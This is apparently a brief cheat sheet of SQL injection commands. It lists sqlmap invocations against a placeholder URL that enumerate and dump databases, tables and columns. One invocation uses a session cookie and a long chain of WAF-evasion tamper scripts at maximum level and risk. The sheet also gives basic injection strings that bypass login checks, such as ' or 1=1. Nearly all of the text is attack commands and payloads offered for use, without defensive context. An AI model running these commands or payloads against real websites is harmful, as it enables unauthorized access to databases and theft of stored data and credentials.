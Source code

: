 # SQLMAP

1. yoursite.com/news.php?id=1
2. python2 sqlmap.py "yoursite.com/news.php?id=1" --dbs
3. python2 sqlmap.py "yoursite.com/news.php?id=1" --tables -D yoursite
4. python2 sqlmap.py "yoursite.com/news.php?id=1" --columns -D databasename -T tablename
5. python2 sqlmap.py "yoursite.com/news.php?id=1" --dump -D databasename -T tablename
6. python2 sqlmap.py "yoursite.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "yoursite.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql

# SQL Injection basics
1. '+OR+1=1-- (microsoft)
2. administrator'--
3. ' or 1=1 limit 1 -- -+
4. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
